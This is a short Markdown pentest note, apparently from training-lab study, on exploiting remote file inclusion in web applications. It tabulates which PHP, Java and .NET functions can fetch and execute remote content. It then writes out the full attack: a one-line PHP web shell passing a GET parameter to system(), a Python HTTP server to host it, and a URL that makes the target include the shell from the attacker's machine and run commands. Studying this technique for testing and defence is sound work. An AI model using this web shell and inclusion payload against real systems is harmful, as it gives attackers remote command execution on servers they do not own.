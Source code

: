 remote file inclusion

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`file_get_contents()`|✅|❌|✅|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.RemotePartial()`|✅|❌|✅|
|`include`|✅|✅|✅|

## Checking Vulnerability 
SEttings needed:
`allow_url_include = On` check in [PHP Wrapper](3%20Exploitation/Web%20Exploitation/Local%20File%20Inclusion/Remote%20Code%20Execution/PHP%20Wrapper.md)
might not be reliable, try adding a `http://127.0.0.1/index.php` see if it renders itself


## Executing 
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
```shell-session
sudo python3 -m http.server <LISTENING_PORT>
```

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

try to curl it also if browser doesn't work

can try ftp and smb servers also